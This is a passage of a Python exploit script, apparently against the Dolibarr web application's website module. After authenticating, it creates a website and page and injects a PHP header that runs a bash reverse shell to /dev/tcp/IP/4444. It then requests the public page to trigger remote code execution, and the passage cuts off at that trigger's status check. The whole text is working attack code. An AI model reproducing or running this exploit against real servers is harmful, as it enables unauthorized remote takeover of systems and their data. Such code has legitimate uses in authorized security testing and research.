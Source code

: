 ```
    else:
        print("[+] Authenticated successfully!")

def rce():
    # Create web site
    print("[+] Attempting to create a website...")
    website_name = uuid.uuid4().hex
    data = {
        "WEBSITE_REF": website_name,
        "token": csrf_token,
        "action": "addsite",
        "WEBSITE_LANG": "en",
        "addcontainer": "create"
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if f"Website - {website_name}" not in res.text:
        print("[!] Website creation failed!")
        sys.exit(1)
    else:
        print(f"[+] Created website name: \"{website_name}\"!")

    # Create web page
    print("[+] Attempting to create a web page...")
    webpage_name = uuid.uuid4().hex
    data = {
        "website": website_name,
        "token": csrf_token,
        "action": "addcontainer",
        "WEBSITE_TYPE_CONTAINER": "page",
        "WEBSITE_TITLE": "x",
        "WEBSITE_PAGENAME": webpage_name
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if f"Contenair \\'{webpage_name}\\' added" not in res.text:
        print("[!] Web page creation failed!")
        sys.exit(1)
    else:
        print(f"[+] Created web page name: \"{webpage_name}\"!")

    # Modify created page
    print("[+] Attempting to modify the web page...")
    webpage_id = re.search(f"<option value=\"(.+)\" .+{webpage_name}", res.text).group(1).strip()
    data = {
        "website": website_name,
        "WEBSITE_PAGENAME": webpage_name,
        "pageid": webpage_id,
        "token": csrf_token,
        "action": "updatemeta",
        "htmlheader": f"<?PHP system('bash -c \"bash -i >& /dev/tcp/IP/4444 0>&1\"'); ?>"
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if "Saved" not in res.text:
        print("[!] Web page modification failed!")
        sys.exit(1)
    else:
        print("[+] Web page modified successfully!")

    # Trigger RCE
    print(f"[+] Triggering RCE now via: {target}/public/website/index.php?website={website_name}&pageref={webpage_name}")
    res = s.get(f"{target}/public/website/index.php?website={website_name}&pageref={webpage_name}", verify=False)
    if res.status_code != 200:
```
